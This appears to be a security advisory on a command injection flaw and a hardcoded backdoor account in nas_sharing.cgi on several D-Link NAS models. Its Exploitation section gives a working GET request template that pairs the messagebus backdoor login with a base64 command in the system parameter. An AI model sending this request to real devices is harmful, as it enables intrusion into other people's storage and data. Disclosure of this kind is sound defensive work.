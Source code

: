 # Command Injection and Backdoor Account in D-Link NAS Devices

## **Vulnerability Summary:**

The described vulnerability affects multiple D-Link NAS devices, including models DNS-340L, DNS-320L, DNS-327L, and DNS-325, among others. The vulnerability lies within the **`nas_sharing.cgi`** uri, which is vulnerable due to two main issues: a backdoor facilitated by hardcoded credentials, and a command injection vulnerability via the **`system`** parameter. This exploitation could lead to arbitrary command execution on the affected D-Link NAS devices, granting attackers potential access to sensitive information, system configuration alteration, or denial of service, by specifying a command,Affecting over 92,000 devices on the Internet.

![Untitled](fofa-result.png)

## Corresponding CWE

CWE-77 (Command Injection) and CWE-798 (Use of Hard-coded Credentials).

## Affected Devices:

- DNS-320L Version 1.11, Version 1.03.0904.2013, Version 1.01.0702.2013
- DNS-325 Version 1.01
- DNS-327L Version 1.09, Version 1.00.0409.2013
- DNS-340L Version 1.08

## Vulnerability Details:

The vulnerability exists in the `nas_sharing.cgi` CGI script, which leads to:

1. **Backdoor through Username and Password Exposure**: The request includes parameters for a username (**`user=messagebus`**) and an empty password field (**`passwd=`**). This indicates a backdoor allowing unauthorized access without proper authentication.
2. **Command Injection through the System Parameter**: The **`system`** parameter within the request carries a base64 encoded value that, when decoded, appears to be a command.

## Exploitation:

Craft Malicious HTTP Request: Prepare an HTTP GET request targeting the `/cgi-bin/nas_sharing.cgi` endpoint.

```
GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=<BASE64_ENCODED_COMMAND_TO_BE_EXECUTED>
```

## **Actual Result**

![Untitled](dns-320.jpg)

## Impact:

Successful exploitation of this vulnerability could allow an attacker to execute arbitrary commands on the system, potentially leading to unauthorized access to sensitive information, modification of system configurations, or denial of service conditions.

## **Fix Recommendation:**

- Apply available patches and updates from the device manufacturer.
